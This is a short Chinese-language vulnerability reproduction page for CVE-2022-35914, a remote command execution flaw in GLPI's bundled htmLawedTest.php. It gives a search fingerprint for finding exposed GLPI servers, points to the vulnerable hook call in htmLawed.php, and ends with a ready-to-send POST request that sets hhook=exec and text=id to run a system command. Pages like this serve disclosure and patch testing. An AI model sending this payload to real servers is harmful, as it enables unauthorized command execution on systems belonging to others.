


# GLPI htmLawedTest.php 远程命令执行漏洞 CVE-2022-35914

## 漏洞描述

GLPI是个人开发者的一款开源IT和资产管理软件。该软件提供功能全面的IT资源管理接口，你可以用它来建立数据库全面管理IT的电脑，显示器，服务器，打印机，网络设备，电话，甚至硒鼓和墨盒等。GLPI 10.0.2及之前版本存在安全漏洞，该漏洞源于htmlawed 模块中 允许 PHP 代码注入

## 漏洞影响

<a-checkbox checked>GLPI</a-checkbox></br>

## 网络测绘

<a-checkbox checked>title="GLPI"</a-checkbox></br>

## 漏洞复现

登录页面



出现问题的文件为 **htmLawedTest.php，** 来源于第三方库 PHP Labware 


```sql
https://www.bioinformatics.org/phplabware/internal_utilities/htmLawed/
```

在 htmLawedTest.php 中接收参数并传入方法 htmLawed 中



跟进文件 htmLawed.php 中


```sql
if($C['hook']){$t = $C['hook']($t, $C, $S);}
```

这里可以看到参数均为用户可控参数，当控制参数 hhook 为 exec 和 text 为执行的命令时就导致了命令执行漏洞


验证POC

```sql
/vendor/htmlawed/htmlawed/htmLawedTest.php
```


访问页面获取到 sid 与 token 后再发送请求包

```sql
POST /vendor/htmlawed/htmlawed/htmLawedTest.php HTTP/1.1
Host: 
Accept: */*
Accept-Encoding: gzip, deflate
Content-Length: 88
Content-Type: application/x-www-form-urlencoded

token=a79cf121bde57fe0e3cc0f247f77961a&text=id&hhook=exec&sid=h1c0vk004dvulal5nj8i6en44e
```

